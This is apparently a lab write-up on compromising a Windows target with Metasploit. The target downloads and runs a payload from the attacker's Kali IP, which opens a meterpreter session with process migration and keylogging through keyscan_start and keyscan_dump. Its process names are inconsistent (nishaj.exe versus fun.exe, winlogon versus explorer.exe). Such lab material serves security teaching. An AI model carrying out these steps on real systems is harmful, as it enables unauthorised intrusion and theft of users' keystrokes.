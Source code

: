 

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: ```http://10.0.2.15/nishaj.exe``` The file "nishaj.exe" downloads.


<img width="940" height="900" alt="image" src="https://github.com/user-attachments/assets/fc4096f9-39df-4926-b158-ec56dbae7eec" />


<img width="614" height="498" alt="image" src="https://github.com/user-attachments/assets/9b4ab0c8-3b24-4c9a-9f10-0c6432ead556" />



Bypass any warning boxes, double-click the file, and allow it to run.
On kali give the command exploit



To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

#### Post Exploitation:
The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.



keyscan_dump Shows the keystrokes captured so far



## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.


